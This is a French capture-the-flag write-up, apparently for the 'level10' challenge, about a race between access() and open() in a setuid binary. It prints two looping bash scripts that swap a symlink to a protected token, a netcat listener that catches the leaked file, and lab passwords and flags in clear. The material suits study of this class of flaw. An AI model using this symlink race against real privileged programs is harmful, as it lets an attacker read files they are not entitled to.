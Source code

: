 # Level10

> login:password -> *`level10:s5cAJpM8ev6XHw998pRWG728z`*
```
:~$ su level10
Password:s5cAJpM8ev6XHw998pRWG728z
```
---

```
:~$ pwd
/home/user/level10
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
...
```

Le Home contient un binaire et un fichier token :

```
:~$ ./level10
./level10 file host
  sends file to host if you have access to it

:~$ ./level10 token localhost
You don't have access to token

:~$ ./level10 .profile localhost
Connecting to localhost:6969 .. Unable to connect to host localhost

```

L'usage nous indique que le binaire envoi un fichier, mais uniquement si on possède les droits sur ce dernier.
En regardant du côté de la commande `strings level10` :

```
...
Connecting to %s:6969 ..
...
open
...
access
...
```

On remarque que le programme se connecte sur le port `:6969` et utilise `open` et `access`. Nous pouvons dés lors, profiter d'une faille d'access afin d'y récupérer le token (man access).\
Pour ce faire nous allons utiliser 2 scripts :

- 1er script - Qui va essayer d'envoyer le fichier /tmp/link sur le localhost (ici `192.168.56.101`)
```
#!/bin/bash
while true;
do
	~/level10 /tmp/link 192.168.56.101
done
```

- 2e script - Qui va supprimer le fichier /tmp/link sur le localhost, le créer et y faire un lien symbolique avec le token présent sur le Home.
```
#!/bin/bash
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	ln -fs ~/token /tmp/link
done
```

Il ne nous reste plus qu'à écouter les transfert avec la commande netcat `nc -lk` (`l` pour écouter & `k` pour conserver la connexion) sur le port de connexion `:6969`, pour obtenir le token.

```
:~$ nc -lk 6969
...
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
^C

```

Il nous suffit maintenant de nous connecter sur l'user `flag10` avec le résultat obtenu puis de lancer un `getflag`

```
:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !

:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

Le flag nous permet de se connecter au level11
`level11:feulo4b72j7edeahuete3no7c`